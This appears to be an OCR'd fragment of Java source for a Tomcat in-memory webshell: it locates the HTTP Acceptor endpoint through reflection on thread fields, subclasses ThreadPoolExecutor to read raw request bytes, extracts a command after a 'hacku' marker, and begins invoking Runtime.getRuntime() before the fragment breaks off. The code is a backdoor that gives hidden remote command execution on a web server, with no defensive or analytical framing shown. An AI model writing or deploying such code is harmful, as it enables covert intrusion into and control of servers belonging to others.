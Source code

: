 ```bash
        return null;
    }

    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = this.getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }

        }
        return new Object();
    }

    class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public void getRequest(Runnable command) {
            try {
                ByteBuffer byteBuffer = ByteBuffer.allocate(16384);
                byteBuffer.mark();
                SocketWrapperBase socketWrapperBase = (SocketWrapperBase) getField(command,"socketWrapper");
                socketWrapperBase.read(false,byteBuffer);
                ByteBuffer readBuffer = (ByteBuffer) getField(getField(socketWrapperBase,"socketBufferHandler"),"readBuffer");
                readBuffer.limit(byteBuffer.position());
                readBuffer.mark();
                byteBuffer.limit(byteBuffer.position()).reset();
                readBuffer.put(byteBuffer);
                readBuffer.reset();
                String a = new String(readBuffer.array(), StandardCharsets.UTF_8);
                if (a.contains("hacku")) {
                    String b = a.substring(a.indexOf("hacku") + "hacku".length() + 1, a.indexOf("\r", a.indexOf("hacku"))).trim();
                    if (b.length() > 1) {
                        try {
                            Runtime rt = Runtime.getRuntime();
```